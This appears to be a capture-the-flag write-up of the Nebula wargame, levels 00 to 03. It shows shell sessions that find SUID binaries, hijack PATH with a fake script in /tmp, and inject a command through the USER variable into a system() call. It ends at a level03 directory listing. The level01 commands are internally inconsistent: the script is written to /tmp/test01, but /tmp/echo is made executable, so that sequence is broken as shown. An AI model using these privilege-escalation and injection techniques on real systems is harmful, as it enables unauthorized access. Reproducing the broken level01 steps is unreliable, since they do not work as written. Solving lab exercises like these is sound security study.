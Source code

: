 # Nebula
The main goal is to run getflag on each level from corresponding flagXX user

## level00
[task description](https://exploit-exercises.lains.space/nebula/level00/)

Find SUID binaries: 
```sh
level00@nebula:/home/flag00$ find / -perm -4000 2>/dev/null 
/bin/.../flag00
...

level00@nebula:/home/flag00$ /bin/.../flag00
Congrats, now run getflag to get your flag!

flag00@nebula:/home/flag00$ getflag 
You have successfully executed getflag on a target account
```

## level01
[task description](https://exploit-exercises.lains.space/nebula/level01/)

Inspecting src code, see, that there is no verification on env:

```sh
sh-4.2$ cat << EOF > /tmp/test01
> #!/bin/bash
> /bin/getflag
> EOF
sh-4.2$ chmod +x /tmp/echo 
sh-4.2$ PATH=/tmp/ ./flag01 
You have successfully executed getflag on a target account
```


## level02
[task description](https://exploit-exercises.lains.space/nebula/level02/)

User input can control "USER" env and passed to the system() call:
```sh
sh-4.2$ USER="; getflag" ./flag02 
about to call system("/bin/echo ; getflag is cool")

You have successfully executed getflag on a target account

```

## level03
[task description](https://exploit-exercises.lains.space/nebula/level03/)

Here we have directory with improper permissions: 
```sh
sh-4.2$ ls -la
total 6
drwxr-x--- 3 flag03 level03  103 Nov 20  2011 .
drwxr-xr-x 1 root   root      60 Aug 27  2012 ..
-rw-r--r-- 1 flag03 flag03   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag03 flag03   675 May 18  2011 .profile
drwxrwxrwx 2 flag03 flag03     3 Aug 18  2012 writable.d
-rwxr-xr-x 1 flag03 flag03    98 Nov 20  2011 writable.sh
```
